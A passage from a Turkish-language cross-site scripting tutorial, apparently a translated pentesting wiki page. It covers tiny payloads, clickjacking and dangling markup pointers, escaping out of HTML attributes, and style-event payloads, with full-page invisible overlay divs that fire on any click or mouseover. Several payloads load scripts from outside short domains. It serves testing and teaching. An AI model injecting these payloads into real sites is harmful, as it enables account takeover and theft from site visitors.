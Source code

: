 > [!NOTE] > **Farklı ortamlar için daha küçük XSS'ler** payload [**burada bulunabilir**](https://github.com/terjanq/Tiny-XSS-Payloads) ve [**burada**](https://tinyxss.terjanq.me).
```html
<!-- Taken from the blog of Jorge Lajara -->
<svg/onload=alert``> <script src=//aa.es> <script src=//℡㏛.pw>
```
Sonuncusu, 5'e genişleyen 2 unicode karakteri kullanıyor: telsr\
Bu karakterlerden daha fazlasını [burada](https://www.unicode.org/charts/normalization/) bulabilirsiniz.\
Hangi karakterlerin ayrıştırıldığını kontrol etmek için [buraya](https://www.compart.com/en/unicode/U+2121) bakabilirsiniz.

### Click XSS - Clickjacking

Eğer açığı istismar etmek için **kullanıcının önceden doldurulmuş verilerle bir bağlantıya veya forma tıklamasını** gerektiriyorsa, [**Clickjacking'i istismar etmeyi**](../clickjacking.md#xss-clickjacking) deneyebilirsiniz (eğer sayfa savunmasızsa).

### İmkansız - Dangling Markup

Eğer **JS kodunu çalıştırmak için bir niteliğe sahip bir HTML etiketi oluşturmanın imkansız olduğunu** düşünüyorsanız, [**Dangling Markup** ](../dangling-markup-html-scriptless-injection/index.html) kontrol etmelisiniz çünkü açığı **JS** kodu çalıştırmadan **istismar edebilirsiniz**.

## HTML etiketinin içine enjekte etme

### Etiketin içinde/nitelik değerinden kaçış

Eğer **bir HTML etiketinin içindeyseniz**, denemek için ilk şey **etiketten kaçmak** olabilir ve [önceki bölümde](#injecting-inside-raw-html) belirtilen bazı teknikleri kullanarak JS kodunu çalıştırabilirsiniz.\
Eğer **etiketten kaçamazsanız**, etikette yeni nitelikler oluşturarak JS kodunu çalıştırmayı deneyebilirsiniz, örneğin (_bu örnekte çift tırnakların niteliği kaçmak için kullanıldığını unutmayın, eğer girdiniz doğrudan etiketin içinde yansıtılıyorsa onlara ihtiyacınız olmayacak_):
```bash
" autofocus onfocus=alert(document.domain) x="
" onfocus=alert(1) id=x tabindex=0 style=display:block>#x #Access http://site.com/?#x t
```
**Stil olayları**
```python
<p style="animation: x;" onanimationstart="alert()">XSS</p>
<p style="animation: x;" onanimationend="alert()">XSS</p>

#ayload that injects an invisible overlay that will trigger a payload if anywhere on the page is clicked:
<div style="position:fixed;top:0;right:0;bottom:0;left:0;background: rgba(0, 0, 0, 0.5);z-index: 5000;" onclick="alert(1)"></div>
#moving your mouse anywhere over the page (0-click-ish):
<div style="position:fixed;top:0;right:0;bottom:0;left:0;background: rgba(0, 0, 0, 0.0);z-index: 5000;" onmouseover="alert(1)"></div>
```
### Attribute İçinde
